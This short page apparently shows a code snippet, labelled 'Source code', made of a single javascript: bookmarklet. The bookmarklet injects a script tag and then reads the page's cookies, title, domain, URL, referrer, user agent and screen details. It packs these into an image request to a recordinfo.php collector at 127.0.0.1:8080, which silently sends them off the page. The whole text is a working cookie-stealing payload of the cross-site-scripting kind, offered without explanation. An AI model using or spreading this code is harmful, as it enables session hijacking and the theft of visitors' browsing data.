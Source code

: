 javascript:(jsdoc=document.createTextNode('console.log("heloo哥们")'),script=document.createElement("script"),script.type="text/javascript",script.charset='utf-8',script.appendChild(jsdoc),document.getElementsByTagName("head")[0].appendChild(script),useragent=window.navigator.userAgent.toLocaleLowerCase(),imgsrc='http://127.0.0.1:8080/recordinfo.php?cookie='+encodeURIComponent(document.cookie)+'&time='+(new Date()).getTime()+"&title="+encodeURIComponent(document.title)+"&domain="+encodeURIComponent(document.domain)+"&url="+encodeURIComponent(document.URL)+"&referrer="+encodeURIComponent(document.referrer)+"&lastmodified="+encodeURIComponent(document.lastModified)+"&useragent="+encodeURIComponent(useragent)+"&width="+screen.width+"&height="+screen.height+"&colorDepth="+screen.colorDepth+"&pixelDepth="+screen.pixelDepth+"&status="+window.status,img=document.createElement('img'),img.src=imgsrc,document.body.appendChild(img))()





